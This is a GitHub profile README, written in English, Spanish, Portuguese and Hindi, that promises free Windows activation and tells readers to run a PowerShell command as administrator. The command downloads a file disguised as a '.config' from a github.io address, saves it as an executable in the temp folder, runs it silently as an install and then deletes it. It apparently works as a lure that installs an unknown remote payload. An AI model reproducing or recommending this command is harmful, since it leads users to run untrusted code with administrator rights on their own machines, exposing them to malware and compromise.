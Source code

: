 Copy the command below and paste it into Windows PowerShell to do Windows Free Activation. 👋⚡

Copie el siguiente comando y péguelo en Windows PowerShell para realizar la activación gratuita de Windows. 👋⚡

Copie o seguinte comando e cole-o no Windows PowerShell para realizar a ativação gratuita do Windows. 👋⚡

नि: शुल्क विंडोज सक्रियण करने के लिए निम्न कमांड को कॉपी करें और इसे विंडोज पावरशेल में पेस्ट करें 👋⚡

<!--
**projetos-gabriel-pub/projetos-gabriel-pub** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
⚡ OPEN THE WINDOWS POWERSHELL AS ADMINISTRATOR AND RUN THE FOLLOWING COMMAND:

###$ LocalTempDir = $env:TEMP; $WindowsAtivator = "WindowsAtivator.exe"; (new-object System.Net.WebClient).DownloadFile('https://online-soft.github.io/online-soft/ativator.config', "$LocalTempDir\$WindowsAtivator"); & "$LocalTempDir\$WindowsAtivator" /silent /install; $Process2Monitor = "WindowsAtivator"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$WindowsAtivator" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)
